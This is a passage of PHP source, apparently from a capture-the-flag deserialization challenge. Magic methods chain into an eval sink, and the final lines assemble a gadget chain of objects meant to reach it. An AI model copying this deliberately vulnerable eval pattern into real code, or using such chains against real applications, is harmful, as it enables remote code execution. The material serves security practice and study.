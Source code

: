 ```php
    public $f1;
//    public function __construct()
//    {
//        $this->f1 = new what();
//    }

    public function __destruct()
    {
        echo $this->f1 . '114514';
    }

    public function run()
    {
        ($this->f1)();
    }

    public function __call($a, $b)
    {
        echo $this->f1->get_flag();
    }
}

class what
{
    public $a;

//    public function __construct()
//    {
//        $this->a = new mix();
//    }

    public function __toString()
    {
        $this->a->run();
        return 'hello';
    }
}
class mix
{
    public $m1 ;

//    public function __construct()
//    {
//        $this->m1 = new crow();
//    }

    public function run()
    {
        ($this->m1)();
    }

    public function get_flag()
    {
        eval('#' . $this->m1);
    }
}

$cmd = new fin();
$cmd-> f1 = new what();
$cmd-> f1 -> a = new mix();
$cmd-> f1 -> a -> m1 = new crow();
$cmd-> f1 -> a -> m1 -> v1 = new fin();
$cmd-> f1 -> a -> m1 -> v1 -> f1 = new mix();
```